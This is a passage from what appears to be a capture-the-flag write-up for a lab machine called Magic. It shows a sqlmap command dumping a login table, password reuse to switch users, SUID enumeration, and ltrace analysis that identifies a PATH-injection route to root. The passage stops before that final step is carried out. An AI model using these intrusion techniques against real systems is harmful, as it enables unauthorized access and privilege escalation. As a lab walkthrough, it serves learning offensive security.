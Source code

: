 ```bash
root@silence:~# sqlmap -r login.req --risk 3 --level 5 -T login --dump

Database: Magic
Table: login
[1 entry]
+----+----------------+----------+
| id | password       | username |
+----+----------------+----------+
| 1  | Th3s3usW4sK1ng | admin    |
+----+----------------+----------+
```
With the newly found password, we can try su once again.
```bash
www-data@ubuntu:/var/www/Magic/images/uploads$ su theseus
Password: Th3s3usW4sK1ng
theseus@ubuntu:/var/www/Magic/images/uploads$
```
The found password works with su. Now we have user and can read user.txt.
```bash
theseus@ubuntu:/var/www/Magic/images/uploads$ cat /home/theseus/user.txt
83c7e***************************
```

## Privesc to root

Now that we have a shell as `theseus`, let us enumerate the system to find a way to escalate our privileges to root.

### Enumeration as theseus
Let us check all SUID binaries on the system.
```bash
theseus@ubuntu:~$ find / -executable -perm -4000 2>/dev/null
/bin/umount
/bin/fusermount
/bin/sysinfo
/bin/mount
```
`Sysinfo` does not seem like a default binary. Let us further enumerate this binary.

```bash
theseus@ubuntu:~$ ltrace sysinfo
...
setuid(0)
setgid(0)
...
popen("lshw -short", "r")
...
popen("fdisk -l", "r")
...
popen("cat /proc/cpuinfo", "r")
...
popen("free -h", "r")
...
```
All these popen functions call programs without absolute paths, which means the sysinfo binary is susceptible to path-injection.

